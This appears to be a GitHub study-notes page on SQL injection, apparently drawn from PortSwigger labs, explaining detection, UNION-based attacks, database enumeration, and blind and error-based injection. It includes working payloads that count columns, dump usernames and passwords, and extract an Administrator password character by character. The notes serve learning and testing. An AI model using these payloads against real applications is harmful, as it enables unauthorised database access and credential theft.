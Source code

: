 # SQL injection

<details>
<summary>$\huge{\text{SQL Injection Cheatsheet}}$</summary>
<br>

- https://tib3rius.com/sqli
    
<br>
</details>

<details>
<summary>$\huge{\text{Overview}}$</summary>
<br>

**How to detect SQL injection vulnerabilities**
- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.
<br>

**SQL injection in different parts of the query**
- Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query.
- However, SQL injection vulnerabilities can occur at any location (UPDATE, INSERT, SELECT [column, table], ORDER BY)
<br>

**Warning: OR 1=1**
- If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.


<br>
</details>

<details>
<summary>$\huge{\text{SQL injection UNION attacks}}$</summary>
<br>

- Requirements
  - How many columns are being returned from the original query
  - Which columns returned from the original query are of a suitable data type to hold the results from the injected query
    
<br>
</details>


<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Determining the number of columns required}}$</summary>
<br>

- First way: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs
  - Example (the injection point is a quoted string within the `WHERE` clause)
  - ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
    ```
- Second way: submitting a series of `UNION SELECT` payloads specifying a different number of null values
  - NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct. 
  - ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    etc.
    ```
- Note: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Database-specific syntax}}$</summary>
<br>

- Example:
  - Oracle: every `SELECT` query must use the `FROM` keyword and specify a valid table
  - MySQL: the double-dash sequence must be followed by a space
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Finding columns with a useful data type}}$</summary>
<br>

- Do you want a string?
  - ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```
  - Error example: Conversion failed when converting the varchar value 'a' to data type int.
   - If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Examining the database}}$</summary>
<br>

| Database type 	| Query |
| ----- | ----- |
| Microsoft, MySQL | 	SELECT @@version |
| Oracle 	| SELECT * FROM v$version |
|PostgreSQL | 	SELECT version() |
- `' UNION SELECT @@version--`
- Listing the contents of the database
- Most database types (except Oracle) have a set of views called the information schema
  - `information_schema.tables `
    - |TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
      | -- | -- | -- | -- |
      | MyDatabase | dbo | Products | BASE TABLE |
    - ` SELECT * FROM information_schema.tables`
  - ` information_schema.columns `
    - | TABLE_CATALOG |TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | DATA_TYPE |
      | -- | -- | -- | -- | -- |
      |MyDatabase | dbo | Users | UserId | int |
    - `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
- Oracle:
  - `SELECT * FROM all_tables`
    - `SELECT TABLE_NAME FROM all_tables`
  - `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
    - `SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'`

<br>
</details>
</dd></dl></dd></dl>


<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Retrieving multiple values within a single column}}$</summary>
<br>

- You can retrieve multiple values together within this single column by concatenating the values together
- `' UNION SELECT username || '~' || password FROM users--`
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>
</details>
</dd></dl></dd></dl>

<details>
<summary>$\huge{\text{Blind SQL Injection}}$</summary>
<br>

- Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
    
<br>
</details>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Triggering conditional responses}}$</summary>
<br>

- `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
  - …xyz' AND '1'='1
    - The query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed. 
  - …xyz' AND '1'='2
    - The query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
- Extract data one piece at a time
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
    - This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
    -  This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
    - ... Confirm that the first character of the password is `s`
  - We can continue this process to systematically determine the full password for the Administrator user.
- `SUBSTRING` is called `SUBSTR` on some types of database (https://portswigger.net/web-security/sql-injection/cheat-sheet)

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Error-based SQL injection}}$</summary>
<br>

- Problem: Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique "Triggering conditional responses" won't work, because injecting different boolean conditions makes no difference to the application's responses.
- It's often possible to induce the application to return a different response depending on whether a SQL error occurs and extract or infer sensitive data from the database, even in blind contexts.
- `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`
  - The CASE expression evaluates to 'a', which does not cause any error.
- `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
  - It evaluates to 1/0, which causes a divide-by-zero error.
-  You can use this to determine whether the injected condition is true.
  -  `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
- Note: There are different ways of triggering conditional errors, and different techniques work best on different database types. See SQL cheat sheet


<br>
</details>
</dd></dl></dd></dl>


